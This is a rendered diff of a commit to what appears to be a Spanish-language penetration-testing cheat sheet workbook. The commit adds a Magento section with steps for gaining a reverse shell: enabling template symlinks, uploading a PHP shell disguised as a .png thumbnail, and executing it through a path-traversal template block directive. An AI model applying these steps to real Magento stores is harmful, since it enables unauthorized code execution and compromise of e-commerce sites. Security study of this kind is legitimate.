

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Interceptadores & Web, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; rows hold the shown columns only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Interceptadores & Web)
+++ b/CheatSheet.xlsm (sheet Interceptadores & Web)
@@ X48 bold: off → on, italic: off → on, underline: on → off, text colour: #0563C1 → black, text size: smaller @@
+row 49: (empty)
+row 50: (empty)
+row 51: (empty)
+row 52:  |  |  |  |  |  |  | MAGENTO
+row 53:  |  |  |  |  |  |  | Comando | Descripcion | Anotaciones
+row 54:  |  |  |  |  |  |  | Magento --> System --> Configuracion --> Developer --> Templates --> Allow symlinks Yes --> Save Config | Necesario para poder ejecutar una shell luego | Is Active Yes
+row 55:  |  |  |  |  |  |  | Magento --> Newsletter --> New root category --> thumbnail image --> shell.php.png | Necesario cargarlo en Thumbnail y que tenga la shell la extension .png ya que se interpretara luego como php, copiamos la direccion del enlace, la pegamos en el buscador y tenemos una shell
+row 56:  |  |  |  |  |  |  | Magento --> Newsletter --> Newsletter Template --> Add New Template --> template content | Para que nos de una shell dando al boton de previsualizar template | {{block type='core/template' template='../../../../../../media/catalog/category/reverse.php.png' }}
```
Also changed, not shown: sheet General, sheet Explotacion & Post-Explotacion, sheet Enumeracion & Escaneos, sheet Red Team.
